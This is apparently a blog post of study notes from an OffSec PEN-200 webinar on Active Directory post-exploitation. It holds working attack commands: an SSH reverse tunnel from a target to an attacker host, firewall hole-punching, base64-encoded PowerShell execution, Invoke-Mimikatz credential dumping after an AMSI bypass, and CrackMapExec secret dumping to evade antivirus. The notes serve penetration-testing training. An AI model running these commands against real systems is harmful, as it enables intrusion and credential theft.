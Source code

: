 ```yaml
---
title: 'OffSec Live: PEN-200'
date: 2022-08-31 12:00:00.000000000 Z
layout: post-external
original_link: https://cardboard-iguana.com/log/2022-08-31-offsec-live-pen-200.html
author: 100007
---
```


# Active Directory Enumeration & Exploitation, Part 3

To use SSH as a generic SOCKS5 proxy, just use remote port forwarding.

```
# This command is run from the TARGET and connects back to the ATTACKER
# box. PORT on the ATTACKER box can then be used as a SOCKS5 proxy via
# proxychains, etc.
#
ssh -R $PORT $USER@$ATTACKER
```

To remember the difference between local and remote port forwarding, think of local port forwarding as connecting a port on the local machine to a remote service, while remote port forwarding connects a port on a remote machine to the local service - or SSH instance (if _only_ a port is given)! Setting up SSH as a proxy doesn’t make sense in the context of the local port forwarding, but can make sense for remote port forwarding.

(SSH port forwards are always read as `$FROM_MACHINE:$FROM_PORT:$TO_MACHINE:$TO_PORT`.)

Check Windows Firewall state:

```
netsh advfirewall show currentprofile
```

See all Windows Firewall rules for inbound connections:

```
netsh advfirewall firewall show rule dir=in name=all
```

Be aware that most built-in rules on Windows are bound to particular applications. But admins are lazy, and seldom bind custom rules to explicit applications. There’s no 100% reliable way to identify such rules, but they’ll often have obvious naming conventions.

See all Windows Firewall rules for outbound connections:

```
netsh advfirewall firewall show rule dir=out name=all
```

In general you don’t want to turn off the Windows Firewall, as doing so will generate a popup for any users currently logged into the machine.

Punch a hole in the Windows Firewall for ports 80, 443, and 4444:

```
netsh advfirewall firewall add action=allow name=tunnel_in `
      dir=in protocol=tcp localport="80,443,4444"
netsh advfirewall firewall add action=allow name=tunnel_out `
      dir=out protocol=tcp localport="80,443,4444"
```

Encode a command to base64 in PowerShell:

```
$Text = "$ONE_LINE_POWERSHELL_COMMAND"
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText = [Convert]::ToBase64String($Bytes)
```

Run this using:

```
powershell.exe -enc $EncodedText
```

See logged in users with PowerView.ps1:

```
Get-NetLoggedon | select UserName
```

Mimikatz binaries are generally detected by AV on download these days, but fortunately there’s a PowerShell reimplementation that can be run after bypassing AMSI.

```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"' > C:\mkat.txt
```

Note, however, that Microsoft Defender will still detect the execution of Invoke-Mimikatz and kill the hosting PowerShell process. This is why we need to redirect the output to a file.

AV can also by bypassed using CrackMapExec:

```
crackmapexec smb $TARGET_NETWORK/$TARGET_NETMASK \
	-u $TARGER_USER -p $CRACKED_PASSWORD --lsa 2> /dev/null
```

This only works if `$TARGET_USER` is an admin. If a user’s password is currently in memory, CrackMapExec will dump this as well (so then you don’t need to crack the hash!).

- [OffSec Live](https://www.offensive-security.com/offsec/offsec-live/)
- [Join OffSec Live](https://learn.offensive-security.com/offsec-live-webinars)
- [PowerShellMafia / PowerSploit / Recon / PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
- [EmpireProject / Empire / data / module\_source / credentials / Invoke-Mimikatz.ps1](https://github.com/EmpireProject/Empire/blob/master/data/module_source/credentials/Invoke-Mimikatz.ps1)
